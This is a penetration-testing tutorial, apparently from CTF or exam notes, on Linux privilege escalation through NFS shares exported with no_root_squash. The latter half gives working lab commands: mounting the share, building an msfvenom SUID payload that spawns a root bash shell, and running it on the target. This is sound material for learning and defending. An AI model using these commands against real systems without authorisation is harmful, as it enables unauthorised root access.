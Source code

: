 # ↔ NFS Shared folders

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.\


<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

The critical element for this privilege escalation vector is the “no\_root\_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no\_root\_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.\


<div align="left">

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</div>

We will mount one of the “no\_root\_squash” shares to our attacking machine and start building our executable.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

<div align="left">

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

</div>

Once we compile the code we will set the SUID bit.

<div align="left">

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</div>

You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Notice the nfs executable has the SUID bit set on the target system and runs with root privileges

\-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Files created via NFS inherit the **remote**¬†user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.\
Check the NFS share configuration on the Debian VM:\
`cat /etc/exports`

\
Note that the **/tmp** share has root squashing disabled.\
On your Kali box, switch to your root user if you are not already running as root:\
`sudo su`\
Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission:\
`chmod +xs /tmp/nfs/shell.elf`\
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:\
`/tmp/shell.elf`
